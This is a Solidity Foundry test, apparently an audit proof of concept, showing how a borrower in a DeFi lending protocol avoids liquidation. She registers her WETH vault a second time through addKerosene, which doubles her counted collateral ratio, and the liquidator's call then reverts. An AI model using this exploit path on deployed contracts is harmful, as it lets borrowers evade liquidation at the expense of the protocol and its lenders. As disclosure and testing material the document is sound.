 ```
        vm.prank(vaultLicenser.owner());
        vaultLicenser.add(address(wethVault));

        vm.prank(vaultManagerLicenser.owner());
        vaultManagerLicenser.add(address(vaultManagerV2));
    }

    function mintDNFTAndDepositToWethVault(address user, uint256 amountAsset, uint256 amountDyad)
        public
        returns (uint256 nftId)
    {
        vm.deal(user, 2 ether);
        vm.startPrank(user);
        nftId = dNft.mintNft{value: 2 ether}(user);

        vaultManagerV2.add(nftId, address(wethVault));

        weth.mint(user, amountAsset);
        weth.approve(address(vaultManagerV2), amountAsset);

        vaultManagerV2.deposit(nftId, address(wethVault), amountAsset);
        vaultManagerV2.mintDyad(nftId, amountDyad, user);
        vm.stopPrank();
    }

    function test_user_can_double_his_collateral() public {
        address alice = makeAddr("Alice");
        address liquidator = makeAddr("Liquidator");

        wethOracle.setPrice(1e8); // Using 1$ for weth for better understanding
        uint256 aliceNft = mintDNFTAndDepositToWethVault(alice, 150e18, 100e18);
        uint256 liquidatorNft = mintDNFTAndDepositToWethVault(liquidator, 400e18, 200e18);

        console.log("User deposit only WETH and his collateral in USD is:", vaultManagerV2.getTotalUsdValue(aliceNft));

        wethOracle.setPrice(0.9e8);
        assertEq(vaultManagerV2.collatRatio(aliceNft), 1.35e18);
        console.log("Alice collateral in USD after the price drops is:   ", vaultManagerV2.getTotalUsdValue(aliceNft));

        // Alice starts the attack here, because she is at liquidable state and want to skip it
        vm.prank(alice);
        vaultManagerV2.addKerosene(aliceNft, address(wethVault));

        console.log("Alice collateral in USD after she adds the vault:   ", vaultManagerV2.getTotalUsdValue(aliceNft));

        vm.prank(liquidator);
        vm.expectRevert(IVaultManager.CrTooHigh.selector);
        vaultManagerV2.liquidate(aliceNft, liquidatorNft);

        assertEq(vaultManagerV2.collatRatio(aliceNft), 2.7e18); // Her collateral ratio is doubled
    }
}
```
